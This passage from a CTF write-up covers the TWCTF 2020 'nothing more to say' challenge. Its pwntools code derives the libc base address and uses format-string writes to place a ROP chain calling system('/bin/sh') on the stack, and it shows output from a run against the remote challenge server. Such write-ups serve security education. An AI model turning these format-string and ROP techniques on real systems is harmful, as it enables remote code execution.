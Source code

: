 ```python
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)

libc.address = __libc_start_main_231 - libc.sym.__libc_start_main - 231
log.info('libc.address: ' + hex(libc.address))
```

> This is something new I'm experimenting with.

This code will search the libc-database and return an array of matches; through trial and error the 5th (see `libc_index = 5` above) is the libc that works with this challenge.

> This was actually unnecessary since a fully updated Ubuntu 18.04 container has the correct version installed.  But, I wanted to test this method.


### Get a shell, get the flag

```python
offset = 6
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payloads = [pop_rdi + 1,pop_rdi,libc.search(b'/bin/sh').__next__(),libc.sym.system]
for i in range(len(payloads)):
    payload=fmtstr_payload(offset,{stack_ret_addr+8*i:payloads[i]})
    p.sendline(payload)
    null = payload.find(b'\x00')
    p.recvuntil(payload[null-2:null])

p.sendlineafter('> ','q')
p.interactive()
```

The `payloads` array is standard CTF fare.  The for loop uses format-string exploits to write out the payload starting from the return address in the stack.  From there is just `q` to exit `main` and run our exploit.

> The following lines capture all the format-string exploit garbage for pretty screen grabs (for write-ups):
> 
> ```python
> null = payload.find(b'\x00')
> p.recvuntil(payload[null-2:null])
> ``` 

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/twctf2020/nothing_more_to_say_2020/nothing'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to pwn02.chal.ctf.westerns.tokyo on port 18247: Done
[*] stack_ret_addr: 0x7ffc771b63b8
[*] __libc_start_main_231: 0x7fcde34edb97
[*] __libc_start_main: 0x7fcde34edab0
[*] getting: https://libc.rip/download/libc6_2.27-3ubuntu1.2_amd64.so
[*] '/pwd/datajerk/twctf2020/nothing_more_to_say_2020/libc6_2.27-3ubuntu1.2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
```